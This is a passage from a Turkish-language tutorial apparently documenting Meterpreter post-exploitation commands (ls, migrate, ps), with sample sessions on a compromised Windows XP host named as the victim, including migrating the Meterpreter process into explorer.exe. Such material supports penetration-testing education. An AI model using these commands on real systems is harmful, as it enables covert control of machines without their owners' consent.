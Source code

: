 

## ls



Linux İşletim sistemindeki `ls` komutuyla aynı işlemi yapar. Bulunulan klasördeki dosya ve klasörleri listeler.


```bash
meterpreter > ls

Listing: C:\Documents and Settings\victim
**=========================================**

Mode              Size     Type  Last modified                   Name
----              ----     ----  -------------                   ----
40777/rwxrwxrwx   0        dir   Sat Oct 17 07:40:45 -0600 2009  .
40777/rwxrwxrwx   0        dir   Fri Jun 19 13:30:00 -0600 2009  ..
100666/rw-rw-rw-  218      fil   Sat Oct 03 14:45:54 -0600 2009  .recently-used.xbel
40555/r-xr-xr-x   0        dir   Wed Nov 04 19:44:05 -0700 2009  Application Data
...snip...
```



## migrate



Meterpreter sunucumuz, karşı tarafta svchost.exe dosyasının içinde çalışıyor olabilir. Bunu başka bir programın içine gömülü hale getirmek istediğimizde `migrate` yani “göç et” komutunu kullanırız.


```bash
meterpreter > run post/windows/manage/migrate 

[*] Running module against V-MAC-XP
[*] Current server process: svchost.exe (1076)
[*] Migrating to explorer.exe...
[*] Migrating into process ID 816
[*] New server process: Explorer.EXE (816)
meterpreter >
```



## ps



Hedef bilgisayarda çalışan tüm işlemleri görüntüler.


```bash
meterpreter > ps

Process list
**============**

    PID   Name                  Path
    ---   ----                  ----
    132   VMwareUser.exe        C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    152   VMwareTray.exe        C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    288   snmp.exe              C:\WINDOWS\System32\snmp.exe
...snip...
```
